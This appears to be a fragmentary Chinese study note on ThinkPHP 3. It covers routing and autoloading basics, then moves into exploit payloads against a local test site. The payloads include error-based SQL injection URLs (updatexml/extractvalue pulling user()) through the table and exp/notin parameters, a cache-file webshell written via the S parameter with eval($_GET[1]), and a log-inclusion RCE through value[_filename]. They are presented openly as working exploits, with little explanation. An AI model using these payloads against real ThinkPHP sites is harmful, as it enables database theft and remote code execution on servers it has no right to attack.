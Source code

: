 http://www.tp3.com/?m=home&c=index&a=test&XDEBUG\_SESSION\_START=PHPSTORM

**thinkphp 2种模式?** 1.普通模式?m=module\_name&c=controller\_name&a=action\_name2.pathinfo/index.php/module\_name/controller\_name/action\_name

**自动加载** spl\_autoload\_register('func\_name')注册一个函数,该函数在需要一个未定义的类是被调用? 1.new class\_name 2.class\_exists

**修改默认进入文件**

C:\\phpStudy\\WWW\\tp3\\ThinkPHP\\Conf\\convention.php

'DEFAULT\_MODULE' => 'Home', // 默认模块 'DEFAULT\_CONTROLLER' => 'Index', // 默认控制器名称 'DEFAULT\_ACTION' => 'test', // 默认操作名称

id\[table\]=users where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)--

id\[table\]=users%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

**namespace**

命名空间===>封装到一个特定的作用域中,解决同一个命名空间命名冲突的问题 namespace xxxx\\xxxx\\xxxx; new xxxx\\xxxx\\xxxx\\A();

**exp**

[http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username](http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username "http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username")\[0\]=notin&username\[1\]=(1)%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)%20--%20&username\[2\]=exp

[http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username](http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username "http://www.tp3.com/index.php?/index.php?m=Home&c=Index&a=test2&username")0\=exp&username0\==%201)%20and%20extractvalue(1,%20concat(0x7e,user()))%20--%20

**S参数**

利用S参数可以实现在tp3的Temp目录下生成一个md5值的文件名,并且内容就是传递的第二个参数的值

[http://www.tp3.com/index.php/home/index/test6?bihuo=%0aeval(](http://www.tp3.com/index.php/home/index/test6?bihuo=%0Aeval%28 "http://www.tp3.com/index.php/home/index/test6?bihuo=%0aeval(")$\_GET\[1\]);//

**缓存**

**rce**

[http://www.tp3.com/index.php?m=Home&c=Index&a=index&value](http://www.tp3.com/index.php?m=Home&c=Index&a=index&value "http://www.tp3.com/index.php?m=Home&c=Index&a=index&value")\[\_filename\]=./Application/Runtime/Logs/Home/21\_07\_26.log&1234567=phpinfo();&XDEBUG\_SESSION\_START=PHPSTORM

[www.address.com/index.php/xxxx](http://t.csdn.cn/www.address.com/index.php/xxxx "www.address.com/index.php/xxxx")\[\_filename\]

1.访问这个

[https://www.tp3.com/index.php?m=Home&c=Index&a=index1&value](https://www.tp3.com/index.php?m=Home&c=Index&a=index1&value "https://www.tp3.com/index.php?m=Home&c=Index&a=index1&value")\[\_filename\]=./Application/Runtime/Logs/Home/21\_07\_26.log

## TP5
